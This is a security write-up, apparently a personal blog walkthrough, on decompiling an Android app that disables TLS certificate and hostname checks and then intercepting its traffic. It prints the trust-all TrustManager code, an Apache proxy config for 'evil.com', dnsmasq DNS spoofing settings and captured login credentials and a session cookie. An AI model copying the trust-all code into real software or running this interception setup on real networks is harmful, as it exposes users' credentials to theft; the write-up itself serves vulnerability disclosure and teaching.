 ```yaml
---
published: true
---
```

I chose one application in Google Play to test. Its main functionalities were focused on consuming a RESTful web service. I decompiled this application using tools dex2jar and JD-GUI. Firstly I connected my phone to computer to get apk file

	$ adb pull /data/app/com.example.app-1.apk

Then I converted apk into jar and ran decompiler

	$ ./d2j-dex2jar.sh com.example.app-1.apk -o app.jar
	dex2jar com.example.app-1.apk -> app.jar

	$ java -jar jd-gui-1.4.0.jar app.jar

During code analysis I found some interesting piece which made me think that application doesn't verify SSL certificate.

	SSLContext sc = SSLContext.getInstance("TLS");
	sc.init(null, new TrustManager[] { new TrustAllX509TrustManager() }, new java.security.SecureRandom());
	HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());
	HttpsURLConnection.setDefaultHostnameVerifier( new HostnameVerifier(){
    	public boolean verify(String string,SSLSession ssls) {
        	return true;
    	}
	});
	
	public class TrustAllX509TrustManager implements X509TrustManager {
    	public X509Certificate[] getAcceptedIssuers() {
        	return new X509Certificate[0];
    	}
	
    	public void checkClientTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	
    	public void checkServerTrusted(java.security.cert.X509Certificate[] certs,
        	    String authType) {
    	}
	}
    
To prove it I ran Burp Suite and set up proxy on my phone. It was important to not install Burp's CA certificate. Web browser started to show warning when I was trying to load any page through HTTPS, but my application was connecing to web service without any problems.
I decided to exploit this vulnerability and peform Man-in-the-middle attack by setting up proxy between target's mobile device and web service.

I started with [proxy](https://github.com/mmmds/walkthroughs/blob/master/proxy.php) which was script written in PHP and ran on Apache. It passes requests to legitimate web service and returns response from it slightly modifying headers to make whole communication readable. Apache required rewriting rule to redirect every URL to this script and self-signed SSL certificate.

	<VirtualHost *:443>
		ServerName evil.com
		RewriteEngine on
		RewriteCond %{REQUEST_FILENAME} !-d
		RewriteCond %{REQUEST_FILENAME} !-f
		RewriteRule . /proxy.php [L]
		DocumentRoot /var/www/html
		SSLEngine on
		SSLCertificateFile "/tmp/server.cert"
		SSLCertificateKeyFile "/tmp/server.key"
	</VirtualHost>

Certificate was generated by

	$ openssl req -nodes -new -x509 -keyout server.key -out server.cert
    
Next step was to run dnsmasq - DNS server configured to return my proxy's IP for web service domain.
Configuration consists of two files, /etc/dnsmasq.conf

	addn-hosts=/etc/dnsmasq.hosts
	server=8.8.8.8
    
and /etc/dnsmasq.hosts

	192.0.2.1 example.com

# 

	$ dnsmasq -C /etc/dnsmasq.conf
    
The last step was to change router's DNS to set up server's IP in administration panel. From that moment traffic from every device connected to attacker's WiFi was logged.

	$ cat /tmp/traffic
	POST /login HTTP/1.1
	Accept: text/plain, text/plain, application/json, */*, */*
	Content-Type: application/json
    User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.4; GT-I8160 Build/KTU84Q)
	Host: example.com
	Connection: Keep-Alive
	Content-Length: 53
    
    { "username": "user1", "password": "s3cr3tp4ssw0rd" }
    
    
    HTTP/1.1 200 200
	Server: nginx
	Date: Sat, 25 Feb 2017 20:47:29 GMT
	Content-Type: application/json
	Transfer-Encoding: chunked
	Connection: keep-alive
	Set-Cookie: JSESSIONID=A163B20D3696AF6185C07CD62EBA4B05
